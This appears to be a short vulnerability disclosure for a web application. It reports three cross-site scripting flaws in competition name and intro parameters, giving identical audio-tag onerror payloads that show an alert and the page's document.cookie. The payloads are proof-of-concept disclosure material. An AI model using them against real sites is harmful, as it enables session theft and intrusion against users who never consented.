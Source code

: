 # xss1
By injecting malicious instruction code into the web page, the user can load and execute the web page program maliciously created by the attacker.


Competition name: rh.raceName parameter
![image](https://user-images.githubusercontent.com/83150001/115981725-864a7180-a5c8-11eb-9e87-3054aaf157a1.png)

payload：
	`test"><audio src=x onerror=alert(2)>`
	`test"><audio src=x onerror=alert(document.cookie)>`
![image](https://user-images.githubusercontent.com/83150001/115981744-a1b57c80-a5c8-11eb-8b91-4c3d99daff55.png)
  
  ![image](https://user-images.githubusercontent.com/83150001/115981949-1341fa80-a5ca-11eb-9937-03b63c65449c.png)

  
  
# xss2 
By injecting malicious instruction code into the web page, the user can load and execute the web page program maliciously created by the attacker.

Competition name: rh.intro parameter
payload：
	`test"><audio src=x onerror=alert(2)>`
	`test"><audio src=x onerror=alert(document.cookie)>`
![image](https://user-images.githubusercontent.com/83150001/115982333-e3482680-a5cc-11eb-8745-eedde01dd7fa.png)

![image](https://user-images.githubusercontent.com/83150001/115982354-feb33180-a5cc-11eb-8246-951c19453498.png)

![image](https://user-images.githubusercontent.com/83150001/115982368-14285b80-a5cd-11eb-8851-d0cc7311d9ea.png)



# xss3
By injecting malicious instruction code into the web page, the user can load and execute the web page program maliciously created by the attacker.

Competition name: rh.inTro parameter
payload：
	`test"><audio src=x onerror=alert(2)>`
	`test"><audio src=x onerror=alert(document.cookie)>`
![image](https://user-images.githubusercontent.com/83150001/115982412-4df96200-a5cd-11eb-9532-3122a84fefc4.png)


![image](https://user-images.githubusercontent.com/83150001/115982392-2bffdf80-a5cd-11eb-8700-985593376acd.png)

![image](https://user-images.githubusercontent.com/83150001/115982407-3d48ec00-a5cd-11eb-9aa8-7cf98b2316e5.png)


